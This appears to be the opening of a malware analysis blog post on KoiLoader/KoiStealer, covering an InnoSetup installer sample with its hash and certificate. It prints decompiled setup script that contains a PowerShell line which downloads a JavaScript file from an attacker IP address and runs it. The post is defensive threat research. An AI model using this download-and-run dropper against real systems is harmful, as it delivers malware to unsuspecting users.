 ```yaml
---
title: KoiLoader/KoiStealer
by: dmpdump
tags: malware RE
---
```


On November 29,2024, MalwareHunterTeam posted the following sample in X:

[https://x.com/malwrhunterteam/status/1862624900592119903](https://x.com/malwrhunterteam/status/1862624900592119903)

* File name: mysetup.exe
* Hash: e29d2bd946212328bcdf783eb434e1b384445f4c466c5231f91a07a315484819
* Certificate: Zhengzhou Lichang Network Technology Co., Ltd.

The executable had minimal detection in VirusTotal, so it caught my attention.

![sshot](/assets/images/koiloader/lowvtdetection.png) 

The executable is an InnoSetup Installer. Upon unpacking the content and decompiling the Compiled.bin file, the following pseudo Pascal script code reveals a PowerShell downloader for a JS script named ‘vqPM0l4stR.js’.

```powershell
function INITIALIZESETUP(): BOOLEAN;
var
	v_1, v_6: Integer;
	v_2, v_3: BOOLEAN;
	v_4: Pointer;
	v_5: TEXECWAIT;
	v_7, v_8, v_9, v_10: UnicodeString;
begin
	label_531:
	result := WIZARDSILENT();
	v_2 := result;
	v_2 := not v_2;
	flag := not v_2;
	if flag then goto label_1166;
	label_583:
	v_4 := &v_1;
	v_5 := 0;
	v_6 := 0;
	v_7 := '';
	v_8 := '-command IWR -UseBasicParsing -Uri 'http://79.124.78[.]109/wp-includes/neocolonialXAW.php' -OutFile ($env:temp+'\vqPM0l4stR.js'); wscript ($env:temp+'\vqPM0l4stR.js');';
```